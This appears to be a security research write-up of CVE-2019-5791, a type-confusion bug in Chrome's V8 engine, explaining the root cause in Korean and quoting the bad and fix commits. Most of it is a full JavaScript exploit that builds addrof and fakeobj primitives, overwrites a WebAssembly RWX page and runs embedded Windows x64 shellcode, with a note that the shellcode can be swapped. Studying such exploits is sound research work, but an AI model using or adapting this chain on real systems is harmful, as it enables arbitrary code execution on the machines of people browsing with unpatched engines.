 # CVE-2019-5791
* Date : January 2019
* Credit : cwhan.tunz@gmail.com (Google Project Zero)
* PoC was tested on Ubuntu 18.04 and Windows 10 without Sandbox
* Uploaded source code must be tested in ubuntu 18.04 with --allow-natives-syntax option
* On windows 10, shellcode must be changed.

## Description
A lazy-compiled function generates an interpreter code confusing smi value as a heap object. seems like it accesses a function object mutated to smi when generating a call stack.

## Root Cause

자바스크립트는 함수 외부에서 함수 내부의 변수를 참조해 closure로 반환하는 것을 가능하도록 해준다. 이러한 자유로운 특징 때문에 컴파일시에 각 함수마다 참조하는 변수가 무엇인지 확인해서 변수를 스택에 할당할 것인지 힙에 할당할 것인지 결정해야한다. 이는 자바스크립트 코드를 파싱하는 단계에서 수행한다. 아래와 같은 예제 코드에서 var foo2=foo(10)에서 foo 함수 내에 인자로 들어가는 10은 stack에 들어가는게 자연스럽지만, foo 함수가 반환하는 closure에서 참조하기 때문에 heap에 선언되어야 한다. 

```javascript
function foo(d){
  return function foo1(a){
    return a+d;
   };
}

var foo2 = foo(10);

function goo(a){
  return foo2(a);
}

```
또한 자바스크립트는 브라우저에서 끊김없이 수행되어야하기 때문에 모든 함수를 순차적으로 미리 컴파일하지 않고 함수를 잠시 저장해놓고 함수가 처음으로 호출될 때 컴파일을 진행한다. 다만 함수가 아닌 top-level scope에 짜여진 코드는 즉시 컴파일 된다. 즉, v8 엔진이 자바스크립트를 해석하고 구동하는 과정은 다음과 같다.
	preparser -> parser -> compile -> lazy compile
preparser는 앞서 설명했듯 각 함수가 어떤 변수를 참조하는지에 대한 정보(context)를 반환한다. parser의 결과는 AST이고 이를 AST visitor 객체가 탐색한다. v8 엔진 최적화 업데이트 중에 실제로 실행되지 않는 dead code를 컴파일하는 시간을 줄이기 위해서 bytecode compiler가 dead code는 skip하도록 만들었다. 하지만 dead code는 실제로 AST visitor와 bytecode compiler 두 단계에 걸쳐 실행되었으며 특수한 상황에서 이 둘의 결과가 일치하지 않아서(AST visitor는 dead code로 인식한 것을 bytecode compiler에서는 인식하지 못한 것) type confusion 취약점을 일으킬 수 있다.

### bad commit
Following statement is about [bad commit](https://chromium.googlesource.com/v8/v8/+/7412593920eceebbbc37ef290d1e3fcb168a3c31)
```
[ignition] More accurate dead statement elision

The Ignition statement list visitor will skip the rest of the
statements in the list if it hits a jump statement (like a return
or break), as the rest of the code in the list can be considered
dead.

    return;
    dead_call(); // skipped

However, since this is at an AST node level, it does not take into
account condition shortcutting:

    if(2.2) return;
    dead_call(); // not skipped

There is also a second dead code elimination in Ignition compilation, at
the bytecode array writer level, where a bytecodes are not emitted if an
"exit" bytecode (Return, Jump, or a few others) has been written, until
the next basic block starts (i.e. a Bind).
```

### fix commit
Following statement is about [fix commit](https://chromium.googlesource.com/v8/v8/+/9439a1d2bba439af0ae98717be28050c801492c1)
```
[ast] Always visit all AST nodes, even dead nodes

We'll let the bytecode compiler and optimizing compilers deal with dead code,
rather than the ast visitors. The problem is that the visitors previously
disagreed upon what was dead. That's bad if necessary visitors omit parts of
the code that the bytecode generator will actually visit.

I did consider removing the AST nodes immediately in the parser, but that
adds overhead and actually broke code coverage. Since dead code shouldn't be
shipped to the browser anyway (and we can still omit it later in the bytecode
generator), I opted for keeping the nodes instead.
```
## Exploit


## PoC
```javascript
callFn = function (code) { try { code(); } catch (e) { console.log(e); } }

let proxy = new Proxy({}, {});
function run(prop, ...args) {
	let handler = {};
	const proxy = new Proxy(function(){}, handler);
	handler[prop] = (({v1 = ((v2 = (function () {
		var v3 = 0;
		var callFn = 0;
		if(a){return;}else{return;}
		(function () { v3(); });
		(function () {
			callFn = "\u0041".repeat(1024*32);
			v3 = [1.1];
			v4 = [{}].slice();
			//%DebugPrint(v3);
			//%DebugPrint(v4);
		})
		})) => (1))() }, ...args) => (1));
	Reflect[prop](proxy, ...args);
}
callFn((() => (run("construct", []))));
callFn((() => (run("prop1"))));
function test() {
	run[0x10] = 0x12121212;
	console.log(proxy.length);
  
  //repeat until it doesn't crash..
	if(proxy.length==1){
		location.reload();
		quit();
	}
	
	let convert = new ArrayBuffer(0x8);
	let f64 = new Float64Array(convert);
	let u32 = new Uint32Array(convert);

	function d2u(v) { f64[0] = v; return u32;}
	function u2d(lo, hi) { u32[0] = lo; u32[1] = hi; return f64[0];}
	function hex(d) { let val = d2u(d); return ("0x" + (val[1] * 0x100000000 + val[0]).toString(16)); }

// Windows x64 shellcode which does .. : MessageBoxA(NULL, "Hello World"); WinExec("notepad.exe");
	let shellcode = [0x488bc448, 0x89580848, 0x89701048, 0x89781855, 0x488d68a1, 0x4881ecb0, 0xc7, 0x45c77573, 0x6572c745, 0xcb33322e, 0x6466c745, 0xcf6c6cc6, 0x45d100c7, 0x45f74865, 0x6c6cc745, 0xfb6f2077, 0x6fc745ff, 0x726c6400, 0xc745d743, 0x3a5c57c7, 0x45db696e, 0x646f66c7, 0x45df7773, 0xc645e100, 0xc745e75c, 0x537973c7, 0x45eb7465, 0x6d3366c7, 0x45ef325c, 0xc645f100, 0xc745076e, 0x6f7465c7, 0x450b7061, 0x642ec745, 0xf657865, 0xe8da00, 0xba8e, 0x4e0eec48, 0x8bc8488b, 0xf8e85201, 0x488d, 0x4dc7ffd0, 0xba7ed8e2, 0x73488bcf, 0x488bd8e8, 0x3c010000, 0xba98fe8a, 0xe488bcf, 0x488bf0e8, 0x2c010000, 0xbaa8a24d, 0xbc488bcb, 0x488bf8e8, 0x1c010000, 0x4533c948, 0x8d55f745, 0x33c033c9, 0xffd0488d, 0x55d7c645, 0x1700488d, 0x4d17e859, 0x48, 0x8d55e748, 0x8d4d17e8, 0x4c000000, 0x488d5507, 0x488d4d17, 0xe83f0000, 0xba0500, 0x488d, 0x4d17ffd7, 0x33c9ffd6, 0x4c8d9c24, 0xb0000000, 0x498b5b10, 0x498b7318, 0x498b7b20, 0x498be35d, 0xc3cccccc, 0x33c03801, 0x740a48ff, 0xc1ffc080, 0x390075f6, 0xc3cccccc, 0xeb0348ff, 0xc1803900, 0x75f8482b, 0xca8a0288, 0x41148ff, 0xc284c075, 0xf4c3cccc, 0x4883ec28, 0xe8ff0000, 0x488b48, 0x184c8b51, 0x204d8bda, 0x498b4a50, 0xe8230000, 0x3d3fd6, 0xec8f7413, 0x4d8b124d, 0x85d27405, 0x4d3bd375, 0xe34883c8, 0xffeb0449, 0x8b422048, 0x83c428c3, 0x4533c941, 0x8bd1eb1b, 0x440fb7c0, 0x488d4902, 0x418d40bf, 0x83f81977, 0x44183c0, 0x20c1ca0d, 0x4103d00f, 0xb7016685, 0xc075dd8b, 0xc2c3cccc, 0x33c0eb0b, 0xfbed248, 0xffc1c1c8, 0xd03c28a, 0x1184d275, 0xefc3cccc, 0x48895c24, 0x8488974, 0x24105748, 0x83ec2048, 0x63413c45, 0x33c98bf2, 0x4c8bd144, 0x8b840888, 0x4c, 0x3c1458b, 0x5820418b, 0x581c4c03, 0xd9418b78, 0x244803d9, 0x458b4018, 0x4803f945, 0x85c0741b, 0x418b0b49, 0x3cae899, 0xffffff3b, 0xf0741e41, 0xffc14983, 0xc304453b, 0xc872e533, 0xc0488b5c, 0x2430488b, 0x74243848, 0x83c4205f, 0xc3420fb7, 0xc4f8b04, 0x8b4903c2, 0xebe3cccc, 0x65488b04, 0x25600000, 0xc30000];
  
	let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
	let f = wasm_mod.exports._Z3addii;
	
	console.log("[+] arr1[0] : "+proxy[0])
	console.log("[+] arr2[0] : "+hex(proxy[0x18]))
	arr2Map = proxy[4]
	var arr1Map = arr2Map - 0.000000000007900e-310
	console.log("[+] arr1Map : " + hex(arr1Map))
	console.log("[+] arr2Map : " + hex(arr2Map))

	//alert("success");

	let addrof = function(obj) {
		v4[0] = obj;
		return proxy[0x18];		// return arr2[0];
	}

	let fakeobj = function(addr) {
		proxy[0x18] = addr
		return v4[0]
	}

	let ab = new ArrayBuffer(0x300);
	let abAddr = addrof(ab);
	//%DebugPrint(ab);
	console.log("[+] array_buf : "+hex(abAddr));
	let wasmObj = addrof(wasm_mod) + u2d(0xe8-0x10,0);
	console.log("[+] wasm_addr : "+hex(addrof(wasmObj)))

	var fake = [ arr1Map, 0, wasmObj, u2d(0,0x8) ].slice();
	var fakeAddr = addrof(fake) - u2d(0x20,0);
	var target = fakeobj(fakeAddr);
	console.log("[+] fake_addr : " + hex(fakeAddr));

	let rwx = target[0];
	console.log("[+] rwx : " + hex(rwx));
	fake[2] = abAddr + u2d(0x10, 0);
	target[0] = rwx;

	let dv = new DataView(ab);
	for (var i = 0; i < shellcode.length; i++) {
		dv.setUint32(i*4, shellcode[i]);
	}
	//%DebugPrint(f);
	f();	
}

test();
```

## Reference

[issue 926651](https://bugs.chromium.org/p/chromium/issues/detail?id=926651)
